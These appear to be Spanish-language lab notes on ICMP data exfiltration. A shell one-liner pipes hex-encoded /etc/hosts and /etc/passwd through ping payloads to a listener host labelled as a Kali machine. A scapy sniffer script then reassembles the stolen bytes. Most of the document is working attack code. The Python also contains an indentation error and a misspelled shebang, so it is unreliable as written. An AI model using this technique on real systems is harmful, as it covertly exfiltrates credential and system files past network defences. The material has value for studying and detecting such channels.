

### Ejemplo :

#### Terminal N° 1

Captura de paquetes que viajan en la interfaz loopback(lo)

```c
sudo tcpdump -i lo -w capture.cap -n -v
```


#### Terminal N° 2

Ping con envió de paquetes en hexadecimal 

```c
xxd -p -c 4 /etc/hosts| while read line; do ping -c 1 -p $line 127.0.0.1; done
```


### Tratamiento de la data

```c
from scapy.all import *
rdpcap("capture.cap")
packets=rdpcap("capture.cap")
```


```c
packets[1]
```


```c
>>> ls(packets[0][ICMP])
```


```c
>>> packets[0][ICMP].load
```


```python
#!/usr/bin/pytyhon3

from scapy.all import ICMP, sniff
import signal, time, sys


#Ctrl_c

def def_handler(sig, frame):
	print("[+] Saliendo ... ")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def data_parser(packet):
	if packet.haslayer(ICMP):
		if packet[ICMP].type == 8:
			data = packet[ICMP].load[-4:].decode("utf-8")
				print(data, flush=True, end='')

if __name__=='__main__':
	sniff(iface="tun0", prn=data_parser)
```


```c
sudo python3 icmp_exfiltration
```


### Ejemplo 
#### Codigo para la ejecucion a nivel de red local

```python
#!/usr/bin/pytyhon3

from scapy.all import ICMP, sniff
import signal, time, sys


#Ctrl_c

def def_handler(sig, frame):
	print("[+] Saliendo ... ")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def data_parser(packet):
	if packet.haslayer(ICMP):
		if packet[ICMP].type == 8:
			data = packet[ICMP].load[-4:].decode("utf-8")
				print(data, flush=True, end='')

if __name__=='__main__':
	sniff(iface="eth0", prn=data_parser)

```
#### Maquina Ubuntu

```c
xxd -p -c 4 /etc/passwd| while read line; do ping -c 1 -p $line 192.168.1.5; done
```




```c
cat /etc/passwd 
```


#### Maquina Kali

```c
sudo python3 icmp_exfiltration.py
```


